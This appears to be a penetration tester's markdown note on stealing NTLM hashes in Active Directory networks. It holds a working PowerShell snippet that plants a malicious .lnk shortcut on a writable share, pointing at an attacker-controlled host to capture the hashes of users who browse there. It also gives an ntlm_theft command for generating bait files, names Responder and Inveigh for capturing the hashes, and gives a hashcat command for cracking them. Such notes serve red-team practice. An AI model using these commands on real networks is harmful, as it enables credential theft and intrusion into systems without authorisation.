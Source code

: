 ```yaml
---
tags:
  - AD
---
```


## Theft Files
___
Any writable directory (shares, nfs, locally) where users will list contents you can use certain file types to steal hashes

**Manual: (.lnk)**

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("\\DC01.domain.local\OpenShare\IT-Driver.lnk")
$lnk.TargetPath = "\\<AttackerIP>\@ico.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "IT Driver"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**Automated (multi-type):**

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

Generate all file types:

```shell-session
python3 ntlm_theft.py -g all -s <attackerIP> -f '@myfile'
```

Monitor for traffic with [Responder](https://github.com/SpiderLabs/Responder) on linux or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on windows. 
Hash received? Try to crack it
``` bash
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt
```

OR:  [Relay Attacks](Relay%20Attacks.md)


## Poisoning
___
- [LLMNR Poisoning](LLMNR%20Poisoning.md)
- [IPv6 Attacks](IPv6%20Attacks.md)

## Relaying
___
- [Relay Attacks](Relay%20Attacks.md)

## Misc Locations
___

- [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

